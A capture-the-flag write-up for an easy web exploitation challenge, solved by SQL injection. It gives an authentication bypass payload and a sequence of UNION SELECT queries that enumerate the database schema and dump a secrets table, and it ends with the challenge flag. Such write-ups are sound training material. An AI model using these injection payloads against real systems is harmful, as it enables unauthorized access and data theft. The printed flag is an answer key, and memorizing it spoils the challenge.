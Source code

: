# error=-330

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: Black Box

#### Description: You don’t ask for access. You carve it out.

#### Author: AndraB

#### Preview: 

![image](https://github.com/user-attachments/assets/2fa0c368-21f5-43fb-a181-4aad60473bcf)

## Solution
<details>

![image](https://github.com/user-attachments/assets/b92cd9a1-4456-4701-a99d-50baf30292f4)

`' OR 1=1--`

![image](https://github.com/user-attachments/assets/bdb616dc-c00c-419e-a90c-4b89ef75920d)

`' UNION SELECT NULL,NULL,NULL,schema_name FROM information_schema.schemata-- -`

![image](https://github.com/user-attachments/assets/cebcad6e-8c4d-47a9-bd93-f05d039d8f9b)

`sqli_challenge` and `password_reset`

`' UNION SELECT NULL,NULL,NULL,table_name FROM information_schema.tables WHERE table_schema='sqli_challenge' -- -`

![image](https://github.com/user-attachments/assets/8fde99eb-25d0-4d1e-be8d-3fc027546846)

`' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_schema='sqli_challenge' AND table_name='secrets' -- -`

![image](https://github.com/user-attachments/assets/ad07e830-85b3-4f2e-9308-4927af6bbbe3)

`' UNION SELECT NULL,NULL,NULL,flag FROM sqli_challenge.secrets-- -`

![image](https://github.com/user-attachments/assets/0acccc85-a447-4d66-9a66-e1cae136e70e)

### Part 1 : `UVT{Th3_sy5t3M_7ru5Ts_1tS_oWn_9r4Mmar_..._`



### Flag
> UVT{Th3_sy5t3M_7ru5Ts_1tS_oWn_9r4Mmar_..._S0_5tR1ng5_4r3_m0r3_tHaN_qu3r13s_1n_th3_3nd}

</details>
